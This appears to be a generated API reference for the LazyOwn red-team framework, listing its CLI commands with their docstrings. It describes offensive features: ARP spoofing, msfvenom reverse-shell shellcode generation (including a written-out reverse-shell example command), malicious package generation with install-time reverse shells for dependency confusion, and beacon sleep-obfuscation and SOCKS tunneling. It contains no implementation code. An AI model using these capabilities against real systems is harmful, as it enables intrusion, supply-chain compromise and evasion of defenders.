The engine reads from ``sessions/world_model.json`` to understand
what services, versions, and vulnerabilities exist. No re-scanning.

Usage:
    hunt <target_ip> [max_exploits]
    hunt 10.10.11.5
    hunt 10.10.11.5 10

:param line: Target IP and optional max exploit count.
:type line: str
:return: None*
- `do_resume` (line 1201) `def do_resume(self, line)` - *Browse previous sessions and load a target from a past engagement.

Scans sessions/ for IP directories with scan data, credentials, or
world model state, and presents them for quick resume.

Usage:
    ``resume``      — show the session selector panel*
- `do_getseclist` (line 1223) `def do_getseclist(self, line)` - *Get the SecLists wordlist from GitHub.

This function downloads and extracts the SecLists wordlist from GitHub to the `/usr/share/wordlists/` directory.

Usage:
    getseclist

:param line: This parameter is not used in this function.
:type line: str

:returns: None

Manual execution:
1. Navigate to the `/usr/share/wordlists/` directory.
2. Download the SecLists repository using `wget`.
3. Extract the downloaded ZIP file.
4. Remove the ZIP file after extraction.

Dependencies:
- `wget` must be installed on the system.
- `unzip` must be installed on the system.
- `sudo` must be available for downloading and extracting files.

Example:
    To execute the function, simply call `getseclist`.

Note:
    - Ensure that you have the necessary permissions to write to the `/usr/share/wordlists/` directory.
    - If `wget` or `unzip` is not installed, the function will fail.*
- `do_download_resources` (line 1261) `def do_download_resources(self, line)` - *Downloads resources into the `sessions` directory.

This function performs the following actions:
1. Changes to the `sessions` directory and executes `download_resources.sh` to download required resources.

Usage:
    download_resources

:param line: Not used in this function.
:type line: str
:returns: None

Manual execution:
1. Runs the `download_resources.sh` script in the `sessions` directory to download necessary resources.

Dependencies:
- `download_resources.sh` must be present in the `sessions` directory.

Example:
    download_resources

Note:
    - Ensure that the `download_resources.sh` script is present in the `sessions` directory and is executable.
    - After running this command, you can use the `www` command as indicated by the printed message.*
- `do_collab_join` (line 1294) `def do_collab_join(self, line)` - *Print the multi-operator collaboration join URL and SSE endpoint.

Outputs the URL teammates need to open in a browser to connect to the
shared operator dashboard at /collab/ and the curl command to consume
the SSE event stream from a terminal.

Usage:
    ``collab_join``                    — print join URL for current self.params['lhost']/self.params['c2_port']
    ``collab_join alice``              — print URL with operator handle pre-filled
    ``collab_join alice --curl``       — also print the curl SSE command

:param line: Optional operator handle and flags.
:type line: str
:return: None*
- `do_kick` (line 1325) `def do_kick(self, line)` - *Handles the process of sending a spoofed ARP packet to a specified IP address with a given MAC address.

This function performs the following steps:
1. Executes a command to list current ARP entries and prints the IP and MAC addresses.
2. Prompts the user to input the target IP and MAC address in a specified format.
3. Parses the provided input to extract the IP and MAC addresses.
4. Sets up default values for the gateway IP, local MAC address, and network interface.
5. Creates an ARP packet with the specified target IP and MAC address.
6. Sends the ARP packet using the specified network interface.
7. Prints a confirmation message indicating that the spoofing packet has been sent.

Args:
    line (str): Input line for the command, which is not used directly in this function.

Raises:
    Exception: If any error occurs during the execution of the function.*
- `do_qa` (line 1374) `def do_qa(self, line)` - *Exits the application quickly without confirmation.

This function performs the following tasks:
1. Prints an exit message with formatting.
2. Terminates the `tmux` session named `lazyown_sessions` if it exists.
3. Kills all running `openvpn` processes.
4. Exits the program with a status code of 0.

Usage:
    qa

:param line: This parameter is not used in the function but is included for consistency with other command methods.
:type line: str
:returns: None

Manual execution:
    1. The command `tmux kill-session -t lazyown_sessions 2>/dev/null` is executed to kill the tmux session named `lazyown_sessions`, suppressing errors if the session does not exist.
    2. The command `killall openvpn 2>/dev/null` is executed to terminate all running `openvpn` processes, suppressing errors if no such processes are found.
    3. The program is exited with a status code of 0 using `sys.exit(0)`.

Dependencies:
    - The function relies on `tmux`, `killall`, and `sys` to perform the exit operations.

Example:
    qa
    # This will print an exit message, terminate the tmux session and openvpn processes, and exit the program.

Note:
    Ensure that `tmux` and `openvpn` are installed and running for their respective commands to have an effect.*
- `do_clock` (line 1436) `def do_clock(self, line)` - *Displays the current date and time, and runs a custom shell script.

This function performs the following actions:
1. Constructs a command to get the current date and time in a specified format.
2. Uses `figlet` to display the current date and time in a large ASCII text format.
3. Runs a custom shell script (`cal.sh`) to display additional information or perform further actions related to the clock.

Usage:
    clock

:param line: This parameter is not used in the function.
:type line: str
:returns: None

Manual execution:
To manually use this function:
1. Ensure that `figlet` is installed on your system for displaying text in large ASCII format.
2. Make sure `cal.sh` exists in the `modules` directory and is executable.
3. Run the function to see the current date and time displayed in large ASCII text, followed by the execution of `cal.sh`.

Note: The function sets the terminal color to white before displaying the date and time, then sets it to green before running the `cal.sh` script. Finally, it resets the terminal color.

Dependencies:
- `figlet`: For displaying text in large ASCII format.
- `cal.sh`: A custom shell script located in the `modules` directory.*
- `do_gencert` (line 1484) `def do_gencert(self, line)` - *Generates a certificate authority (CA), client certificate, and client key.

Returns:
    str: Paths to the generated CA certificate, client certificate, and client key.*
- `do_load_session` (line 1496) `def do_load_session(self, line)` - *Load the session from the sessionLazyOwn.json file and display the status of various parameters.

This command reads the sessionLazyOwn.json file from the sessions directory and displays the status
of parameters, credentials, hashes, notes, plan, id_rsa, implants, and redop.

:param line: Additional arguments (not used in this command)*
- `do_clone_site` (line 1546) `def do_clone_site(self, line)` - *Clone a website and serve the files in sessions/{url_cloned}.
Args:
    line (str): input line that url to clone

Returns:
    None*
- `do_msfshellcoder` (line 1592) `def do_msfshellcoder(self, line)` - *Generate shellcode in C format using msfvenom for either a custom command or a reverse shell payload.
This command supports both direct argument input and interactive mode. It uses self.params for default
values (self.params['lhost'], lport, etc). Output is saved to sessions/ as a .txt file in C array format.
Args:
    --payload (-p): MSF payload (e.g., windows/x64/meterpreter/reverse_tcp).
    --command (-c): Custom command to encode into shellcode (e.g., 'whoami').
    --self.params['lhost'] (-H): Local IP for reverse shells.
    --lport (-P): Local port for reverse shells.
    --os (-o): Target OS: 'windows' or 'linux'.
    --arch: Target architecture: 'x86' or 'x64' (default: x64).
Outputs:
    Saves shellcode to ./sessions/shellcode_*.txt in C format.
    Uses self.cmd() to run system commands and self.display_toastr() for UI feedback.
Examples:
    msfshellcoder -c "calc.exe" --os windows
    msfshellcoder -p linux/x64/shell_reverse_tcp -H 10.0.0.5 -P 4444
    msfshellcoder  # Launch interactive mode*

#### `shellsys.py`
**Path:** `cli/commands/shellsys.py`
**File Doc:** *Local shell and system extracted from the miscellaneous cluster.  Pending status: originals deleted from ``cli/commands/misc_migrated.py``; this set is registered by ``cli.registry``.*

**Classes:**
- `ShellSysCommandSet` (line 23) `class ShellSysCommandSet(LazyOwnCommandSet)` - *Local shell and system.*

**Functions:**
- `lazyrun_command` (line 205) `def lazyrun_command()`

**Methods:**
- `do_sh` (line 30) `def do_sh(self, line)` - *Executes a shell command directly from the LazyOwn interface.

This function allows the user to execute arbitrary shell commands without exiting the LazyOwn shell.
It checks if a command is provided, prints a message indicating the command being executed, and then
runs the command using `os.system`.

Usage:
    sh <command>

:param line: The shell command to be executed.
:type line: str
:raises ValueError: If no command is provided, an error message is printed indicating that a command is required.
:returns: None

Example:
    sh ls -la
    # This will execute 'ls -la' in the shell without exiting LazyOwn.

Note:
    Ensure that the command provided is safe to execute and does not include potentially harmful operations.*
- `do_sys` (line 62) `def do_sys(self, line)` - *Executes a shell command directly from the LazyOwn interface.

This function allows the user to execute arbitrary shell commands without exiting the LazyOwn shell.
It checks if a command is provided, prints a message indicating the command being executed, and then
runs the command through the audited safe_run_shell gate with output capture.

Usage:
    sh <command>

:param line: The shell command to be executed.
:type line: str
:raises ValueError: If no command is provided, an error message is printed indicating that a command is required.
:returns: None

Example:
    sh ls -la
    # This will execute 'ls -la' in the shell without exiting LazyOwn.

Note:
    Ensure that the command provided is safe to execute and does not include potentially harmful operations.*
- `do_pwd` (line 110) `def do_pwd(self, line)` - *Displays the current working directory and lists files, and copies the current directory path to the clipboard.

This function performs the following tasks:
1. Displays the current working directory with `pwd` and lists files in the directory using `ls`.
2. Copies the current directory path to the clipboard using `xclip`.

Usage:
    pwd

:param line: This parameter is not used in the function but is included for consistency with other command methods.
:type line: str
:returns: None

Manual execution:
    1. The command `echo -e "[\e[96m\`pwd\`\e[0m]\e[34m" && ls && echo -en "\e[0m"` is executed to display the current working directory and list files in it.
    2. The current directory path is copied to the clipboard using the command `pwd | xclip -sel clip`.

Dependencies:
    - The function relies on `echo`, `pwd`, `ls`, and `xclip` to display the directory and copy the path to the clipboard.

Example:
    pwd
    # This will display the current working directory, list files, and copy the current directory path to the clipboard.

Note:
    Ensure that `xclip` is installed on your system for copying to the clipboard to work.*
- `do_nano` (line 146) `def do_nano(self, line)` - *Opens or creates the file using line in the sessions directory for editing using nano.

:param line: name of the file to use in nano in session directory.

:returns: None*
- `do_cron` (line 170) `def do_cron(self, line)` - *Schedules a command to run at a specified time.

This function allows users to schedule a command to execute at a specific hour and minute.
If the specified time has already passed for the current day, the command will be scheduled
to run the following day.

Usage:
    cron HH:MM command [args]

Parameters:
line (str): The input string containing the scheduled time in 'HH:MM' format followed by the command and arguments.

Returns:
None*
- `do_clean` (line 216) `def do_clean(self, line)` - *Deletes files and directories in the `sessions` directory, excluding specified files and directories.

1. Checks if the `self.params['rhost']` parameter is valid:
- Uses the `check_rhost` function to verify if `self.params['rhost']` is assign and valid.
- If `self.params['rhost']` is not valid, exits the function.

2. Lists files and directories in the `sessions` directory:
- Uses `os.listdir` to list all files and directories in the `sessions` directory.
- Compares each item with the list of exclusions.

3. Deletes files and directories not in the exclusion list:
- Uses `os.remove` to delete files and `shutil.rmtree` to delete directories.

4. Prints a message indicating that the cleanup is complete.

:param line: This parameter is not used in the function.
:type line: str
:returns: None

Manual execution:
To manually run these tasks, you would need to:
- Ensure that you have the correct `self.params['rhost']` value set.
- Manually execute commands to delete files and directories, excluding specified ones.

Note: This function performs a cleanup by removing various files and directories associated with the current session, excluding specified items.*
- `do_fixperm` (line 303) `def do_fixperm(self, line)` - *Fix permissions for LazyOwn shell scripts.

This function adjusts the file permissions for shell scripts and CGI scripts in the `modules` directory, making them executable.

Usage:
    fixperm

:param line: This parameter is not used in this function.
:type line: str

:returns: None

Manual execution:
1. Change the permissions of all shell scripts in the `modules` directory to be executable.
2. Change the permissions of all files in the `modules/cgi-bin` directory to be executable.

Dependencies:
- `chmod` command must be available on the system.

Example:
    To execute the function, simply call `fixperm`.

Note:
    - Ensure you have the necessary permissions to modify file permissions.*
- `do_fixel` (line 336) `def do_fixel(self, line)` - *Fixes file permissions and line endings in the project directories.

This function converts line endings from DOS/Windows format to Unix format for all files in the project directories. This helps to ensure consistent line endings and can prevent issues related to file format mismatches.

Usage:
    fixel

:param line: Command parameters (not used in this function).
:type line: str

:returns: None

Manual execution:
1. Run the method to fix line endings in the specified directories.

Dependencies:
- The `dos2unix` command must be installed and accessible from the command line.

Examples:
    1. Run `do_fixel` to convert line endings for all files in the project directories.

Note:
    - This method only fixes line endings and does not modify file permissions.
    - Ensure that the `dos2unix` command is installed and functioning correctly.*
- `do_pop` (line 369) `def do_pop(self, line)` - *Open a centered popup in the current tmux session to execute a shell command.

If no command is provided via argument, prompts the user interactively.
The popup remains open after command execution and waits for user acknowledgment
via pressing ENTER, avoiding premature closure without requiring fixed sleep delays.

Requirements:
- Must be run inside an active tmux session (TMUX environment variable set).
- Tmux server must be running.

The command is executed in a bash shell within the popup. If tmux is not available
or the environment is invalid, an error message is displayed and execution aborts.

Args:
    line (str): The command to execute in the popup. If empty, prompts user input.*
- `do_tab` (line 406) `def do_tab(self, line)` - *Executes the `lazypyautogui.py` script with optional arguments.
This open new terminal tab and then run and instance of LazyOwn strokes the keyboard with pyautogui

If a `line` argument is provided, it appends the argument to the command.
Otherwise, it runs the script without additional parameters. The constructed
command is displayed and executed in the system shell.

Parameters:
    line (str): Optional argument to pass as input to the `lazypyautogui.py` script.

Returns:
    None*

#### `sleep_obfuscation.py`
**Path:** `cli/commands/sleep_obfuscation.py`
**File Doc:** *Sleep obfuscation CommandSet — beacon memory evasion technique management.  Exposes ``modules/sleep_obfuscation`` through the LazyOwn CLI.*

**Classes:**
- `SleepObfuscationCommandSet` (line 16) `class SleepObfuscationCommandSet(LazyOwnCommandSet)` - *Sleep obfuscation technique manager.*

**Methods:**
- `do_sleep_list` (line 23) `def do_sleep_list(self, line)` - *List available sleep obfuscation techniques.

Usage: sleep_list [--windows | --linux]*
- `do_sleep_info` (line 50) `def do_sleep_info(self, line)` - *Show detailed information about a sleep obfuscation technique.

Usage: sleep_info <technique_name>*
- `do_sleep_configure` (line 82) `def do_sleep_configure(self, line)` - *Configure the active sleep obfuscation technique.

Usage: sleep_configure <technique_name> [--encrypt_heap --indirect_syscalls]

Available techniques:
  sleep_mask, ekko, stack_spoof, module_stomp, fiber_sleep,
  thread_pool, hwbp_sleep, linux_gatekeeper, linux_futex_hide*

#### `socks_proxy.py`
**Path:** `cli/commands/socks_proxy.py`
**File Doc:** *SOCKS proxy CommandSet — beacon tunneling configuration.  Exposes ``modules/socks_proxy`` through the LazyOwn CLI.*

**Classes:**
- `SocksProxyCommandSet` (line 18) `class SocksProxyCommandSet(LazyOwnCommandSet)` - *SOCKS5 proxy configuration commands.*

**Methods:**
- `do_socks_config` (line 25) `def do_socks_config(self, line)` - *Show or configure the SOCKS5 proxy.

Usage: socks_config [--bind <ip>] [--port <n>] [--no-localhost] [--json]

Displays the current SOCKS proxy configuration. Use flags to
override settings for the next beacon build.*
- `do_socks_sessions` (line 75) `def do_socks_sessions(self, line)` - *List active SOCKS proxy sessions.

Usage: socks_sessions*
- `do_socks_export` (line 94) `def do_socks_export(self, line)` - *Export SOCKS5 proxy specification for beacon delivery.

Usage: socks_export [--file <path>]

Outputs the JSON spec that beacons use to configure their
internal SOCKS5 proxy listener.*

#### `supply_chain.py`
**Path:** `cli/commands/supply_chain.py`
**File Doc:** *Supply Chain Attack command set.  Covers dependency confusion scanning, package squatting detection, and malicious package template generation for red team operations.*

**Classes:**
- `SupplyChainCommandSet` (line 88) `class SupplyChainCommandSet(LazyOwnCommandSet)` - *Supply chain attack operations.*

**Functions:**
- `_parse_requirements` (line 282) `def _parse_requirements(filepath)` - *Parse a Python requirements.txt file.

Args:
    filepath: Path to requirements.txt.

Returns:
    List of (package_name, version) tuples.*
- `_parse_package_json` (line 307) `def _parse_package_json(filepath)` - *Parse an npm package.json file.

Args:
    filepath: Path to package.json.

Returns:
    List of (package_name, version) tuples.*
- `_parse_gemfile` (line 328) `def _parse_gemfile(filepath)` - *Parse a Ruby Gemfile.

Args:
    filepath: Path to Gemfile.

Returns:
    List of (gem_name, version) tuples.*
- `_parse_cargo_toml` (line 348) `def _parse_cargo_toml(filepath)` - *Parse a Rust Cargo.toml file.

Args:
    filepath: Path to Cargo.toml.

Returns:
    List of (crate_name, version) tuples.*
- `_parse_go_mod` (line 377) `def _parse_go_mod(filepath)` - *Parse a Go go.mod file.

Args:
    filepath: Path to go.mod.

Returns:
    List of (module_name, version) tuples.*
- `_parse_pom_xml` (line 397) `def _parse_pom_xml(filepath)` - *Parse a Maven pom.xml file.

Args:
    filepath: Path to pom.xml.

Returns:
    List of (artifact_id, version) tuples.*
- `_pypi_exists` (line 425) `def _pypi_exists(package_name)` - *Check if a package exists on PyPI.

Args:
    package_name: Package name to check.

Returns:
    True if the package is registered on PyPI.*
- `is_internal_name` (line 450) `def is_internal_name(name)` - *Check if a package name looks internal/private.

Args:
    name: Package or module name.

Returns:
    True if the name matches internal naming patterns.*
- `_extract_flag` (line 475) `def _extract_flag(args, flag)` - *Extract a ``--flag <value>`` pair from a list of arguments.*

**Methods:**
- `do_depconfuse` (line 95) `def do_depconfuse(self, line)` - *Scan a requirements.txt for dependency confusion candidates.

Usage: depconfuse <requirements_file> [--check-registry]

Parses a Python requirements.txt and checks which packages do NOT
exist on PyPI (private/internal packages). These are vulnerable to
dependency confusion attacks.*
- `do_package_squat` (line 140) `def do_package_squat(self, line)` - *Generate a malicious PyPI package for dependency confusion.

Usage: package_squat <package_name> [--lhost <ip>] [--lport <port>] [--type <pypi|npm>] [--description <text>]

Creates a package with an install-time reverse shell payload.
Outputs to sessions/supply_chain/<package_name>/.*
- `do_depscan` (line 216) `def do_depscan(self, line)` - *Scan a directory tree for dependency files and flag risks.

Usage: depscan <directory> [--output <report.json>]

Scans for requirements.txt, package.json, Gemfile, pom.xml,
Cargo.toml, go.mod and reports internal/non-public dependencies.*

#### `surface.py`
**Path:** `cli/commands/surface.py`
**File Doc:** *Attack-surface operations: confirmed discovery scans, estorides fusion.  ``scandiscovery`` lists every IP found in the sessions discovery files and only launches ``lazynmap`` after the operator confirms — scans never fire blind. ``estorides_intel`` refreshes the estorides OSINT export and fuses it into the campaign graphs (intel + attack 3D, circular, spherical), where matching IPs/values merge nodes instead of duplicating them, and refreshes the loop summary.*

**Classes:**
- `SurfaceCommandSet` (line 36) `class SurfaceCommandSet(LazyOwnCommandSet)` - *Discovery scans and OSINT fusion for the attack surface.*

**Methods:**
- `do_scandiscovery` (line 43) `def do_scandiscovery(self, line)` - *Scan every discovery IP with operator confirmation.

Usage: scandiscovery [--yes]

Lists the IPs collected in ``sessions/hostsdiscovery.txt`` and
``sessions/hosts_*_discovery.txt``, asks for confirmation (skipped
with ``--yes``), then runs ``lazynmap`` once per IP. Aborts
cleanly on EOF/non-interactive shells.*
- `do_estorides_intel` (line 86) `def do_estorides_intel(self, line)` - *Fuse estorides OSINT entities into the campaign intel graphs.

Usage: estorides_intel [--run] [--world-model] [--cap N] [--cli PATH]

Refreshes ``sessions/estorides_lazyown.json`` from the estorides
checkout (``--run`` forces re-export), merges entities into the
intel + attack graphs (matching IPs/values fuse nodes, new ones
arrive tagged), refreshes ``intel_summary.json`` for the
autonomous loop, and optionally writes new hosts into
``world_model.json`` (``--world-model``, feeds the killchain).*

#### `ux.py`
**Path:** `cli/commands/ux.py`
**File Doc:** *Usability commands: hud, undo, config_diff, cheat, suggest.  These commands close the highest-impact UX gaps without touching the legacy shell: a one-glance session HUD, configuration undo and diff, an in-shell cheatsheet renderer, and fuzzy typo correction. All data helpers live in their own contracts; this set only wires them to cmd2.*

**Classes:**
- `UxCommandSet` (line 39) `class UxCommandSet(LazyOwnCommandSet)` - *Session HUD, config undo, cheatsheet and fuzzy suggestion.*

**Methods:**
- `do_hud` (line 46) `def do_hud(self, line)` - *Session counters: elapsed time, commands run, material captured.

Complements rather than repeats the other commands. ``killchain``
owns the kill-chain phases, the status bar already shows target and
phase, and ``sitrep`` owns the full picture. This shows only what
nothing else reports: how long this session has run, how many
commands it executed, and how many credentials and notes exist.

Usage:
    ``hud``          — two counter lines
    ``hud --json``   — machine-readable JSON without ANSI
    ``hud --plain``  — plain text without colours*
- `do_undo` (line 85) `def do_undo(self, line)` - *Revert the last assign/set configuration change.

Usage:
    ``undo``*
- `do_config_diff` (line 115) `def do_config_diff(self, line)` - *Show what changed since the session started.

Usage:
    ``config_diff``          — human-readable list
    ``config_diff --json``   — machine-readable JSON*
- `do_cheat` (line 140) `def do_cheat(self, line)` - *Render a cheatsheet section inside the shell.

Usage:
    ``cheat``          — list available topics
    ``cheat recon``    — recon commands with examples
    ``cheat privesc``  — privilege escalation checklist*
- `do_toast` (line 167) `def do_toast(self, line)` - *Raise a toast notification inside the cmd2 shell.

The shell already renders toasts after every command; this command
lets you raise one yourself. Use it to flag state changes for
yourself or for a teammate tailing the same session. The persistent
ascii panel is the default; ``--live`` renders the same event as a
sonner-style auto-expiring line through the shared toast bus.

Usage:
    ``toast <message>``                      — info level
    ``toast <message> --level success``      — success / warn / error
    ``toast <message> --type beacon``        — custom label
    ``toast <message> --now``                — print immediately
    ``toast <message> --live``               — ephemeral line, auto-erases on TTY
    ``toast <message> --live --duration 2``  — ephemeral with 2s delay
    ``toast <message> --dry-run``            — show what would be written*
- `do_suggest` (line 261) `def do_suggest(self, line)` - *Fuzzy command suggestion for typos and fragments.

Usage:
    ``suggest nmp``      — suggests lazynmap, nmap variants
    ``suggest gobustr``  — suggests gobuster*
- `_candidate_commands` (line 281) `def _candidate_commands(self)` - *Return searchable command names from the shell or aliases.*
- `_find_cheat_section` (line 298) `def _find_cheat_section(query)` - *Locate a cheatsheet section matching query.

Args:
    query: Lowercase topic fragment.

Returns:
    Tuple of section title and (goal, command) rows, or None.*

#### `config_history.py`
**Path:** `cli/config_history.py`
**File Doc:** *In-memory configuration history with undo and diff.  Assign and set commands mutate payload.json without a safety net. This value object keeps a bounded stack of snapshots so undo restores the previous state and diff explains what changed since session start.*

**Classes:**
- `ConfigHistoryConfig` (line 16) `class ConfigHistoryConfig` - *Centralized knobs for history depth.*
- `ConfigHistory` (line 23) `class ConfigHistory` - *Bounded stack of configuration snapshots.*

**Functions:**
- `get_shell_history` (line 81) `def get_shell_history(shell)` - *Return the ConfigHistory bound to a shell, creating it on demand.

Args:
    shell: Parent shell object used as attribute host.

Returns:
    The shared ConfigHistory instance.*
- `track_before` (line 104) `def track_before(history, state)` - *Capture baseline on first use then push a pre-mutation snapshot.

Args:
    history: Shared history instance.
    state: Configuration mapping before mutation.*

**Methods:**
- `capture_baseline` (line 30) `def capture_baseline(self, state)` - *Store session-start snapshot used by diff.

Args:
    state: Current configuration mapping.*
- `push` (line 38) `def push(self, state)` - *Push a snapshot before mutation.

Args:
    state: Configuration mapping before the change.*
- `undo` (line 48) `def undo(self)` - *Pop the newest snapshot.

Returns:
    Previous state or None when the stack is empty.*
- `diff` (line 58) `def diff(self, current)` - *Compare current state against the baseline.

Args:
    current: Live configuration mapping.

Returns:
    Mapping of key to (old, new) for changed keys only.*
- `depth` (line 76) `def depth(self)` - *Return number of stored undo steps.*

#### `config_status.py`
**Path:** `cli/config_status.py`
**File Doc:** *Simplified configuration status display for the LazyOwn shell.  Groups payload.json fields by category, shows which are set, which need attention, and which are optional -- replacing the raw JSON dump with a human-friendly overview.  Design contract: - Zero imports from ``lazyown.py`` or ``lazyc2.py``. - All output through ``rich.console.Console``. - ``ConfigStatus`` receives a params dict; never reads payload.json directly.*

**Classes:**
- `ConfigStatusConfig` (line 55) `class ConfigStatusConfig` - *Centralised constants for config status display.*
- `ConfigStatus` (line 62) `class ConfigStatus` - *Display grouped configuration status.

Args:
    params: Live params dict from the shell.
    config: Optional config override.*

**Methods:**
- `__init__` (line 70) `def __init__(self, params, config)`
- `_field_status` (line 78) `def _field_status(self, key, value)` - *Return (status_label, color) for a field value.*
- `render_status` (line 89) `def render_status(self)` - *Render the grouped configuration status table.*
- `render_quick_check` (line 129) `def render_quick_check(self)` - *Quick check: show only required fields that are not set.*

#### `confirm.py`
**Path:** `cli/confirm.py`
**File Doc:** *Shared interactive confirmation helpers with safe non-TTY behaviour.  Every interactive prompt in the CLI should go through :func:`confirm` so agent-driven sessions (stdin closed or non-interactive) degrade gracefully instead of crashing with ``EOFError`` or hanging on a prompt that can never be answered.  Behaviour matrix:  - TTY stdin: prompt and wait for y/n. - Non-TTY stdin (pipe/EOF): return ``default`` immediately. - Empty answer: return ``default``.*

**Functions:**
- `_read_line` (line 20) `def _read_line(prompt)`
- `confirm` (line 27) `def confirm(question, default, yes_values)` - *Ask a yes/no question, never raising on non-interactive stdin.

Args:
    question: The question to show (a trailing `` [y/N] `` is appended).
    default: Answer returned when stdin is not a TTY or input is empty.
    yes_values: Case-insensitive answers treated as yes.

Returns:
    True when the operator answered yes, False otherwise.*

#### `contextual_help.py`
**Path:** `cli/contextual_help.py`
**File Doc:** *Contextual help system for the LazyOwn shell.  Extends the default ``cmd2`` help with phase, requirements, examples, and alias information sourced from the command index and the shell state.  Design contract: - Zero imports from ``lazyown.py`` or ``lazyc2.py``. - All output through ``rich.console.Console``. - ``ContextualHelp`` receives its dependencies via constructor.*

**Classes:**
- `CommandInfo` (line 62) `class CommandInfo` - *Enriched command information for contextual help.*
- `ContextualHelpConfig` (line 78) `class ContextualHelpConfig` - *Centralised constants for contextual help.*
- `ContextualHelp` (line 167) `class ContextualHelp` - *Enriched help provider for LazyOwn commands.

Args:
    aliases: Live aliases dict from the shell.
    params: Live params dict from the shell.
    config: Optional config override.*

**Functions:**
- `_load_command_index` (line 85) `def _load_command_index(path)` - *Load the command index JSON. Returns empty dict on failure.*
- `_build_command_lookup` (line 97) `def _build_command_lookup(index)` - *Build a name -> info lookup from the command index.*

**Methods:**
- `__init__` (line 176) `def __init__(self, aliases, params, config)`
- `get_command_info` (line 188) `def get_command_info(self, name)` - *Return enriched info for a command, or None if not found.*
- `render_command_help` (line 208) `def render_command_help(self, name)` - *Render contextual help for a single command. Returns True if rendered.*
- `render_phase_commands` (line 261) `def render_phase_commands(self, phase)` - *Render all commands for a given phase.*
- `render_requirements_status` (line 281) `def render_requirements_status(self)` - *Show which requirements are met for the current session.*

#### `dashboard_layout.py`
**Path:** `cli/dashboard_layout.py`
**File Doc:** *Responsive layout decisions for the Textual operator dashboard.  Small terminals crush the fixed three-column layout. This module keeps the width thresholds and panel visibility rules in one testable place; the dashboard app only toggles CSS classes based on these answers.*

**Classes:**
- `DashboardLayoutConfig` (line 14) `class DashboardLayoutConfig` - *Centralized knobs for responsive breakpoints.*

**Functions:**
- `layout_mode` (line 28) `def layout_mode(width, config)` - *Return the layout bucket for a terminal width.

Args:
    width: Terminal width in columns.
    config: Breakpoint configuration.

Returns:
    wide, narrow or compact.*
- `hidden_panels` (line 45) `def hidden_panels(mode)` - *Return panel ids hidden in the given layout mode.

Args:
    mode: One of wide, narrow or compact.

Returns:
    Tuple of widget ids to hide. Wide hides nothing, narrow hides
    the reasoning panel, compact additionally hides the right column.*

#### `dashboard_tui.py`
**Path:** `cli/dashboard_tui.py`
**File Doc:** *LazyOwn operator dashboard — a full-screen Textual TUI.  Launch from the LazyOwn shell with ``dashboard`` or directly:  python3 -m cli.dashboard_tui [--payload PATH] [--sessions PATH]  The dashboard auto-refreshes every REFRESH_INTERVAL seconds. Press Q or Ctrl-C to close and return to the cmd2 shell.  Layout: ┌─ Header (target / domain / phase / OS) ─────────────────────────────┐ │  Left (Kill Chain + Config)  │  Center (Commands) │ Right (Ops)      │ ├──────────────────────────────────────────────────────────────────────┤ │  Hint bar (graph suggestions)                                        │ └─ Footer ([Q] Quit  [R] Refresh  [?] Help) ──────────────────────────┘*

**Classes:**
- `CommandRequested` (line 97) `class CommandRequested(Message)` - *Posted when the operator submits a command or clicks a hint button.*
- `PhaseSelected` (line 105) `class PhaseSelected(Message)` - *Posted when the operator clicks a kill-chain phase row.*
- `TargetPanel` (line 322) `class TargetPanel(Static)` - *Top info bar: target, domain, phase, OS.*
- `KillChainPanel` (line 378) `class KillChainPanel(Static)` - *Left panel: kill chain phase progress — single source of truth via KillChain.*
- `ConfigPanel` (line 430) `class ConfigPanel(Static)` - *Left panel: key payload.json values.*
- `CommandsPanel` (line 460) `class CommandsPanel(Static)` - *Center panel: recent executed commands.*
- `ReasoningPanel` (line 495) `class ReasoningPanel(Static)` - *Center panel: live autonomous-daemon reasoning stream.*
- `OpsPanel` (line 532) `class OpsPanel(Static)` - *Right panel: objectives, credentials, beacons.*
- `HintBar` (line 587) `class HintBar(Horizontal)` - *Bottom bar: graph-driven next steps rendered as one-click buttons.*
- `ToastPanel` (line 653) `class ToastPanel(Static)` - *Notification panel rendering the cmd2 toast stream unchanged.

Uses :func:`cli.toast_bus.read_recent_toasts` and
:func:`cli.toast_bus.build_toast_renderable`, so the dashboard shows the
same themed ``notifications`` panel the shell prints. It tails the event
file instead of consuming it, so raising a toast in one surface never
hides it from the other.*
- `OutputPanel` (line 693) `class OutputPanel(Log)` - *Center panel: scrollable output of commands run from the dashboard.*
- `NextStepsPanel` (line 706) `class NextStepsPanel(Static)` - *Right panel: AI-ranked next-step recommendations.*
- `LazyOwnDashboard` (line 738) `class LazyOwnDashboard(App)` - *Full-screen operator dashboard for LazyOwn.

Reads payload.json, sessions/, and the graphify knowledge graph.
Auto-refreshes every REFRESH_INTERVAL seconds. Press Q to quit.*

**Functions:**
- `_get_killchain_for_tui` (line 55) `def _get_killchain_for_tui()` - *Return kill-chain progress as :class:`PhaseProgress`-compatible list.

Derives state exclusively from ``KillChain.get_progress`` (world model)
so the dashboard TUI, Flask `/killchain`, and CLI agree on every phase.*
- `dispatch_command` (line 113) `def dispatch_command(command, timeout)` - *Run one LazyOwn command headlessly and capture its output.

Uses the supported ``lazyown.py --headless --command`` entry point with
list-form argv so the operator input never reaches a shell. A crashing or
hanging command cannot take the dashboard down with it.

Args:
    command: Command line typed by the operator.
    timeout: Seconds before the child process is killed.

Returns:
    Tuple of (success, output). Output is stdout, or stderr when the
    process failed without producing stdout.*
- `_read_json` (line 151) `def _read_json(path)`
- `_engagement_to_cli_phase` (line 159) `def _engagement_to_cli_phase(engagement_phase)` - *Map a WorldModel EngagementPhase value to a CLI phase name.

Delegates to the single source of truth in :class:`modules.killchain.KillChain`.*
- `_count_lines_in_glob` (line 169) `def _count_lines_in_glob(pattern)`
- `_read_recent_commands` (line 182) `def _read_recent_commands(limit)`
- `_graph_hints` (line 209) `def _graph_hints(limit)`
- `_fallback_hints` (line 223) `def _fallback_hints(last_command, limit)` - *Suggest next steps from the static kill-chain tables.

The graph advisor needs a built ``graphify-out/`` graph. Without one the
hint bar used to render an empty placeholder, which made the whole
feature invisible. The adjacency and phase-priority tables in
:mod:`cli.reactive_hints` are always present, so they act as the
baseline and the graph only refines it.

Args:
    last_command: Most recent command line, used for adjacency lookup.
    limit: Maximum suggestions to return.

Returns:
    Suggested command verbs, possibly empty when every candidate has
    already run this session.*
- `_resolve_hints` (line 248) `def _resolve_hints(recent, limit)` - *Return actionable hints, preferring the graph over the static tables.

Args:
    recent: Recent command entries from the transcript.
    limit: Maximum suggestions to return.

Returns:
    Non-empty hint list when any source can produce one.*
- `_beacon_count` (line 265) `def _beacon_count()`
- `_read_credential_lines` (line 280) `def _read_credential_lines(pattern)` - *Read actual credential lines from credential files.*
- `_get_recommendations` (line 297) `def _get_recommendations()` - *Get next-step recommendations from the recommendation engine.*
